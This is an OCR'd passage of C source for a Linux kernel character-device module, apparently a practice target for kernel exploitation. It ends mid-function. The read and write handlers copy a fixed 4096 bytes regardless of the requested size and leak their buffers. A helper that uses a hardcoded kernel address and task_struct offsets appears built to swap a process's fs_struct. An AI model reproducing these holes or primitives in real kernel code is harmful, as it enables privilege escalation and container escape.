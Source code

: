     static int test_major = 0;
    static int test_minor = 0;
    
    static struct cdev cdev_0;
    dev_t hellodev_no;
    struct class *hellodev_class;
    
    struct hellodevice{
        char* device_buf;
        uint64_t device_buf_len;
    };
    
    struct hellodevice hellodev_struct;
    
    static int helloopen(struct inode *proc_inode, struct file *proc_file)
    {
        printk(":into open!\n");
        return 0;
    }
    
    static ssize_t helloread(struct file *proc_file, char __user *proc_user, size_t n, loff_t *loff)
    {
        printk(":into read");
    
        char *c = kmalloc(4096, GFP_KERNEL);
        memset(c, 0x41, 4096);
        copy_to_user(proc_user, c, 4096);
    
        return 0;
    }
    
    static ssize_t hellowrite(struct file *proc_file, const char __user *proc_user, size_t n, loff_t *loff)
    {
        printk(":into write!\n");
    
        char *c = kmalloc(4096, GFP_KERNEL);
        copy_from_user(c, proc_user, 4096);
    
        return 0;
    }
    
    uint64_t pid__off = 0x9c0;
    uint64_t real_parent_off_ = 0x9d0;
    uint64_t fs_offset_ = 0xbf8;
    
    static ssize_t set_fs_struct_(void){
        struct task_struct *task_;
        struct task_struct *init_;
        uint32_t pid_ = 0;
        uint64_t userpid = 0;   
        
        size_t(*getpid_)(void) = 0xFFFFFFFF810D6380;
        userpid = (*getpid_)(); 
    
        void * userkpid = find_get_pid(userpid);
        task_ = pid_task(userkpid,PIDTYPE_PID);
    